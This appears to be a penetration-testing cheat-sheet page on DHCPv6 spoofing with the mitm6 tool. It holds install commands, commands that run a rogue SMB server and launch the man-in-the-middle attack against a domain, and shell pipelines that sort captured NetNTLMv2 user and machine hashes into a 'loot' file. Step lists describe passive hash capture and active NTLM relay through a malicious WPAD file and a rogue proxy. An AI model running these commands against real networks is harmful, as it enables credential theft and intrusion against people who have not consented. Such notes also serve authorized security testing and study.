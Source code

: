 
### DHCPv6 Spoofing


#### mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://intrinium.com/mitm6-pen-testing/](https://intrinium.com/mitm6-pen-testing/)

Install:

```
$ git clone https://github.com/fox-it/mitm6 ~/tools/mitm6 && cd ~/tools/mitm6
$ python3 setup.py install
Or
$ pipx install -f "git+https://github.com/fox-it/mitm6.git"
```

Run:

```
 # Just capture the hashes
$ sudo smbserver.py -smb2support share `pwd` | tee -a ~/ws/log/mitm6-smbserver.out
 # Perform the MitM attack
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```

Parse, sort and save:

```
 # Users:
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | cut -c 5- | grep -v '\$' > net-ntlmv2.mitm6
$ sort -u -t: -k1,1 net-ntlmv2.mitm6 ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.mitm6 t
 # Machines
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | grep '\$' | cut -c 5- | sort -u -t: -k1,1
```

##### Attack vectors

Grab hashes with `smbserver.py` (passive):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server and responds with the attacker's IP for all incoming queries.
4. `smbserver.py` collects hashes during SMB requests from victims.

Relay authentication with ntlmrelayx.py (active):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server, `ntlmrelayx.py` serves a malicious WPAD file with an inexistent hostname (which will be resolved to the attacker's IP anyway) and acts like a rogue proxy server and `mitm6.py` responds with the attacker's IP for all the incoming DNS queries.
4. Victims grab the WPAD file and ask the rogue IPv6 DNS server (attacker's machine) to resolve its location - resolved to attacker's machine.
5. Victims go to the rogue proxy server and there `ntlmrelayx.py` responses with `HTTP 407 Proxy Authentication`.
